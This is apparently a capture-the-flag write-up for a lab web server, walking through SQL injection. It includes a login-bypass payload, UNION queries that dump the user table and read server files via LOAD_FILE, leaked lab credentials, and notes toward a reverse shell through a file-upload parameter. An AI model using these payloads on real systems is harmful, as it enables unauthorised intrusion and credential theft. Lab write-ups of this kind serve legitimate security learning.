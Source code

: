 ## Initial injection for login
Doing a directory fuzz on the homepage of the webserver reveals a /administrative page
![[Pasted image 20210809162332.png]]
After playing around with the request a bit in burpsuite, it is possible to login with a simple sql injection
```sql
uname=user'or 1 = 1 -- -&password=pass
```
![[Pasted image 20210809162609.png]]

## Union injection
Going back to the login sql injection, can use a union to execute queries on the database
```sql
uname=admin' union select "one",(select @@version),"three",":four","five","six" -- -&password=somethingthatdoesntmatter
```
![[Pasted image 20210809165644.png]]
Use this injection to leak a password hash for the admin user
```118e48794631a9612484ca8b55f622d0```
```sql
uname=admin' union select "one",(select group_concat(username,":",password,"\r\n") from writer.users),"three",":four","five","six" -- -&password=somethingthatdoesntmatter
```
![[Pasted image 20210809173242.png]]
This password doesn't appear crackable.
Use the LOAD_FILE function to read some arbitrary files -> sites-enabled 
```sql
uname=admin' union select "one",(LOAD_FILE("/etc/apache2/sites-enabled/000-default.conf")),"three",":four","five","six" -- -&password=somethingthatdoesntmatter
```
![[Pasted image 20210809230831.png]]
After a good amount of research on the file structure of this website, get \__init\__.py from /var/www/writer/writer.htb
Among other things, this leaks database creds
![[Pasted image 20210810112559.png]]
```admin:ToughPasswordToCrack```
After an unbelievable amount of troubleshooting, managed to get a reverse shell with following commands:
-	1: Upload a file using the "filename" parameter when adding a story
	![[Pasted image 20210810164538.png]]
	- Need to use base64 because sending a cleartext slash (/) causes a server error
-	2: Once the file is uploaded, load the file using the "image_url" param of the same request
	![[Pasted image 20210810164750.png]]
	- Need to use file://absolute_path, trying to remotely download the file doesnt' work because the script saves it as a tmp file -> erases the name
-	3: Start a listener on attacking machine before hitting enter on step 2 (!!)